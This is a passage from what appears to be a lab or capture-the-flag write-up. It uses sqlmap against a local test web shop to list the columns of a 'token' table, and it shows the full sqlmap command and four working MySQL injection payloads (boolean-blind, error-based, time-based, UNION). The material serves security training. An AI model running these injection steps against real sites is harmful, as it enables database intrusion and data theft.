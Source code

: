 ```console
| oc_weight_class_description       |
| oc_zone                           |
| oc_zone_to_geo_zone               |
| token                             |
+-----------------------------------+

[21:52:51] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 21:52:50
```

## Find the Site Token:


From our previous sqlmap output, we can see that the last table is called __token__. Let's go ahead and add the `-T` option to set our table name in sqlmap, and the `--columns` option to enumerate all of the columns in the token table.

```console
root@kali:~/gds# sqlmap -u "http://localhost:8080/index.php?route=product/product&product_id=53" -p product_id -D testlab -T token --columns
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.0.12#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 21:54:15

[21:54:15] [INFO] resuming back-end DBMS 'mysql' 
[21:54:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: product_id (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: route=product/product&product_id=53 RLIKE (SELECT (CASE WHEN (7914=7914) THEN 53 ELSE 0x28 END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: route=product/product&product_id=53 AND (SELECT 8445 FROM(SELECT COUNT(*),CONCAT(0x717a707671,(SELECT (ELT(8445=8445,1))),0x716a626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: route=product/product&product_id=53 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: route=product/product&product_id=53 UNION ALL SELECT NULL,NULL,CONCAT(0x717a707671,0x725662454c43554b68684f43466171746e51794c4a6d677568725856746f66754654414a6e635452,0x716a626a71)-- FTqd
---
[21:54:16] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.4.45, Nginx
back-end DBMS: MySQL >= 5.0
[21:54:16] [INFO] fetching columns for table 'token' in database 'testlab'
[21:54:16] [WARNING] reflective value(s) found and filtering out
```